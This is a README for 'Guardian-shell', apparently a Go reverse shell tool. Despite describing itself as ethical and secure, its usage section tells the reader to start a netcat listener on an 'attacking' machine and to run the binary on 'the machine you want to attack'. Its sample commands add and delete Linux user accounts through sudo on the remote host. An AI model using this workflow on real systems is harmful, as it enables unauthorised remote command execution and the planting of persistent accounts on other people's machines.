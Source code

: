 ## what is it ?

Guardian-shell is a  secure reverse shell tool written in Go. Designed with a focus on responsible use and ethical practices, it facilitates secure communication between authorized parties. Guardian-shell empowers you with the ability to remotely execute commands on target machines, for easy system management and monitoring. 

## usage

step 1 : from your (attacking) machine run `nc -lvp 20090`

step 2 : run guardian_shell on the machine you want to attack. 
copy from this repo and paste it on the machine you want to attack and run it `./guardian-shell`
it will give you response `Connected to the reverse guardian listern!`

## sample commands

to add new user in remote linux server
```
echo ur_sudo_password | sudo -S useradd testuser; echo new_password_123 | passwd testuser
```

to delete user from remote linux server
```
echo ur_sudo_password | sudo -S userdel testuser
```